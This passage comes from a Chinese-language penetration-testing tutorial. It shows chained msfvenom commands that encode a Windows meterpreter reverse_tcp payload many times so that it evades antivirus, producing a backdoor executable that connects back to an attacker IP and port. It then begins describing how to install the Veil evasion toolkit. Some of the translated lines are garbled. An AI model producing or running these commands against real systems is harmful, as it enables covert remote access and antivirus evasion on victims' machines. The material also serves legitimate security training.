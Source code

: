 MSFvenom 有更多的选项和开关；上表描述了创建有效负载时通常使用的方法。

MSFvenom 允许将多个命令链接在一起。这是在每个命令结束时使用`| \`序列完成的。

要使用一系列命令创建有效负载，请执行以下步骤。注意每个命令末尾的`| \`序列。

在终端窗口中，输入以下命令：

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.34.153 LPORT=8080 -f raw -e x86/shikata_ga_nai -i 15  | \
msfvenom -a x86 --platform windows -e x86/countdown -i 9  -f raw | \
msfvenom -a x86 --platform windows -e x86/shikata_ga_nai -i 9 -f exe -o MSFV-payload.exe

```

完成输入上述命令后，应获得以下输出：

![](img/6371948d-f93c-4879-b68a-e4bbf90c0ffd.png)

图 1：链接的 MSFvenom 命令

在命令的第一行中，我们定义要使用的`meterpreter/reverse_tcp`有效载荷。然后定义攻击主机的 IP（`LHOST`和端口（`LPORT`。然后我们使用原始格式（`-f`），并使用`shikata_ga_nai`编码器（`-e`）进行 15 次迭代（`-i 15`。

在命令的第二行中，我们通过定义架构（`-a`）、平台（本例中为 Windows（`--platform`）以及迭代 9 次的`x86/countdown`编码器，进一步对原始文件进行编码。

最后，我们通过再次运行`shikata_ga_nai`编码器并使用`-f exe -o`选项创建一个`exe`文件来编译它。

一旦命令执行，它将创建一个名为`MSFV-payload.exe`的后门文件，该文件存储在`/root/Downloads/`文件夹中。

我们将在本章后面的*测试绕过技术*部分测试该文件的检测率。

# 逃避面纱

“面纱绕过”工具集可用于创建外壳代码，以绕过常见的使用，并生成反向外壳。

可以按照以下步骤安装工具套件：

1.  在 Kali Linux 中打开终端窗口。
2.  使用`apt install -y veil`命令。这将下载工具套件、所有依赖项，并为安装做好准备。当我们被询问是否要安装软件时，`-y`命令用于简单地预定义`yes`参数。

3.  下载完所有内容后，您可以通过运行`veil`**命令启动安装（请参见下面的屏幕截图）。使用`s`**选项进行静默安装。这仍将向您显示正在安装的组件，但不需要您进行交互：****

